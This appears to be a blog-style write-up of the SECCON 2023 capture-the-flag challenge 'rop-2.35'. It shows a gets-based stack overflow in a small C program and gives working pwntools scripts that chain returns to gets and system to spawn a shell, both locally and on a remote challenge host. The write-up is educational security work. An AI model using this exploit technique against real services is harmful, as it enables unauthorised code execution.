 +++
title = 'SECCON 2023 - rop-2.35'
date = 2023-09-22T15:18:52-04:00
tags = ["seccon-2023", "rop", "easy"]
description = "In this post, I will be solving a easy pwn challenge from SECCON 2023."
draft = false
+++
This challenge comes from SECCON 2023, it's one of the easiest challenges available in the CTF.

We're given the source code, looking at it we have a good glance at the challenge.
```c
#include <stdio.h>
#include <stdlib.h>

void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

We read using the vulnerable `gets` function into a 16 bytes buffer.

So logically, by looking at the stack, to control the return address we would need `0x10` bytes to overflow our buffer and then `0x8` bytes to overflow RBP for a total of `0x18 bytes` before hitting the return address.

Now the question is where can we return, or what do we do.

Running the challenge in gdb, we can see that when main returns rdi contains a writable pointer to libc.

We therefore use this pointer to a gets call (we don't need to change rdi since it already contains the writable pointer), and we give the command we'd like to execute to this gets call.

Then we can directly use a call to system, since rdi already contains the pointer.

Here's the exploit i used to locally solved this challenge.
```python
io = start()
rop = ROP(exe)

p1 = [
        b"A" * 0x10, b"B" * 0x8,
        p64(exe.sym.gets),
        p64(exe.sym.system)
    ]

io.sendline(b"".join(p1))

io.sendline(b"/bin0sh")
```

And here's the exploit i ran on the remote challenge.
```python
io = remote("127.0.0.1", 9999)
rop = ROP(exe)

p1 = [
        b"A" * 0x10, b"B" * 0x8,
        p64(exe.sym.gets),
        p64(exe.sym.system)
    ]

io.sendline(b"".join(p1))

io.sendline(b"/bin0sh")
```

if there's one lesson to retain from this challenge, it's to always check out the state of the registers when crashing a program !!!

We were also being given a decent docker setup to run the challenge on, this is another thing i retained from this challenge.
